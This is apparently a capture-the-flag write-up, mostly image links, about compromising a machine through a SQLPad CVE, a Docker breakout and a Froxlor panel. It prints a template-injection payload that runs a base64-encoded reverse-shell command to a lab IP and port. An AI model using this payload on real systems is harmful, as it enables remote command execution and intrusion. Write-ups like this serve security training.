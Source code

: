 
If you scan with gobuster vhost, you will not get any results, but if you navigate through the website, you will see a button that wants to redirect you directly to a subdomain.

![](https://miro.medium.com/v2/resize:fit:700/1*t2zzEeMYN8raBYmFbk3ZPw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtK8xzqeijpNmi3sQYiJfw.png)

## SQLPad CVE

![](https://miro.medium.com/v2/resize:fit:700/1*2h0LV0w3TuWIRXF9oZelBw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*fFY2bKsmL6w2Z45f83DujA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*jtwTlDm4Enuki1ZhuaIoYA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*BROJylg-3NyQWpdBER0l3A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*EbYqAWBQ2fAKm7HebMdQgw.png)

> {{ process.mainModule.require(‘child_process’).exec(‘echo -n  
> c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAzLzQ0NDQgMD4mMQ== | base64 -d | bash’) }}

![](https://miro.medium.com/v2/resize:fit:700/1*k6YA-J65hIpuvLUx7g2hWA.png)

We are root users, yes, but we are inside the Docker container. At first you may think that you need to do a Docker Breakout. It definitely is, but you should think as simple as possible.

![](https://miro.medium.com/v2/resize:fit:700/1*ffGVPsnyhCdAhT6WDv2zoA.png)

## Docker Breakout (!)

![](https://miro.medium.com/v2/resize:fit:700/1*nGIvYMSmDBwRV-P-HRcn2g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Eqi0sTnOyrNMKwCZrVL5YQ.png)

## Lateral Movement

![](https://miro.medium.com/v2/resize:fit:700/1*HLVOvoajPE5hsbmKCCVd7A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*4m0HF_NTk2_tkif7w4YZqw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Zw945mMGBhfQ3W8ebqu0Bw.png)

We accessed the Froxlor service at 127.0.0.0.1:8080 from our local address, but we do not have a username and password to log in.

![](https://miro.medium.com/v2/resize:fit:700/1*hEi1xH3q3y_Arrv_DpBYkg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*o5RpOu_lrRMQOvQ89-NK8w.png)

![](https://miro.medium.com/v2/resize:fit:700/1*yFTitL7_ElMcoXFwvD6iYQ.png)

Then, when you examine the requests sent by pressing the Inspect button, you will have the password for the admin user.

![](https://miro.medium.com/v2/resize:fit:700/1*YyaOoor_aHqEJdNgsyEGpw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*n-9Kl33ZmXYwtzquRmWerw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*teW24sYLXJRLRVfekYljpg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*pPUD8KQ-Y8QgF7zhay8Mdg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*wsXy9BPkGZ8tMHE7HwlI7g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtoGwD-SLMHz5_T_zsnwEA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*QDU-T45iW_FjsH2srsL7PA.png)

